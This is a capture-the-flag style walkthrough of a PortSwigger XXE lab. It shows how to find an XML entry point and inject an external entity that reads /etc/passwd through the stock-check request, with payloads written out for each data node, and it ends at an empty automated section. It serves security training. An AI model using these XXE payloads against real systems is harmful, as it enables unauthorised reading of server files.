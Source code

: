 \+ Lab #1    : Exploiting XXE to retrieve files\
\+ Lab Level : Apprentice\
\+ Link      : https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-retrieve-files

## About:
This lab has a ```Check stock``` feature that parses XML input and returns any unexpected values in the response.<br/>
To solve the lab, inject an XML external entity to retrieve the contents of the ```/etc/passwd``` file. <br/>

## End Goal:
Retrieve the content of ```/etc/passwd``` file.

## Detection:
* First of all, we need to find an XML data entry point where we can test for XXE vulnerability.
* According to the lab description, the target Web Application has a check stock feature that parses XML input.
  ![XXE](https://user-images.githubusercontent.com/101610095/221443861-16357268-24f6-40be-9eba-cf94b6c412a8.png)
* Let's visit the ```/product``` page and intercept the POST request after clicking on the ```check stock``` button:
  ![XXE2](https://user-images.githubusercontent.com/101610095/221443309-560773a8-e280-438b-b7e9-162d23f0d046.png)
* As you can see here, after clicking on the check stock button, a client-side script issues a POST request to the server, and then the server respond with the following response:<br/> 
  ![XXE3](https://user-images.githubusercontent.com/101610095/221443796-aa626e12-d1df-4bc4-80a2-b2d2d82e0e89.png)
* The client-side script will then process the server's response and update part of the user interface by displaying the number of products left.<br/>
  ![XXE1](https://user-images.githubusercontent.com/101610095/221443008-d18e6537-9e12-4868-9742-a4f126fd598b.png)

> 📝: **NOTE:** <br/>
> Notice that there are 2 data values within the submitted XML document, which means to test systematically for XXE vulnerabilities, we need to test each data node in the XML individually.<br/>
> ![XXE5](https://user-images.githubusercontent.com/101610095/221444607-7e192970-4499-4734-bcb9-1f638b97288f.png)

## Exploitation:
### Manual:
#### Crafting the payload:
* In order to exploit this XXE vulnerability and retrieve the content of ```/etc/passwd``` file, we need to add a suitable ```DOCTYPE``` element that defines an external entity to the XML.
* An External Entity reference is specified using the ```SYSTEM``` keyword and its definition is the ```URL``` from which the value of the entity should be loaded.
* Since, we want to retrieve a local file, we will use ```file:///etc/passwd``` as the URL for our external entity.
* The malicious external entity  should look to something like this:
```XML
<!DOCTYPE foo [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
```
* At this stage, all we need to do is to inject this external entity in between the ```XML Prolog``` and the root element ```<stockCheck>```
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  ...
</stockCheck>
```
#### Testing for XXE:
* Let's start with the ```productId``` child element, and replace the *productId* number with a reference to our malicious external entity ```&file;```  :
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>
    &file;
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```
* Let's send the request:<br/>
  ![request](https://user-images.githubusercontent.com/101610095/221447680-dbba6f8b-447b-48a2-9848-d2ed61c2db12.png)
* Server's Response:<br/>
  ![response](https://user-images.githubusercontent.com/101610095/221447686-dd8b0acd-e3ab-41e2-a80c-262515be4c40.png)
* As you can see, we were able to retrieve the content of /etc/passwd file, which means the ```productId``` data node is vulnerable to XXE injection.<br/>
<br/>

* Now, let's test if the ```storeId``` data node is also vulnerable to XXE injection: 
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY file SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
  <productId>
    1
  </productId>
  <storeId>
    &file;
  </storeId>
</stockCheck>
```
* Request: <br/>
![request](https://user-images.githubusercontent.com/101610095/221448126-053c31ab-2723-4dca-abac-98c3c1e7a91c.png)

* Response: <br/>
![response2](https://user-images.githubusercontent.com/101610095/221448138-8f0993f3-10c6-4c03-8111-c2cc00dfcf6c.png)
* It looks like the second data ```storeId``` node is not vulnerable to XXE injection. 

### Automated:

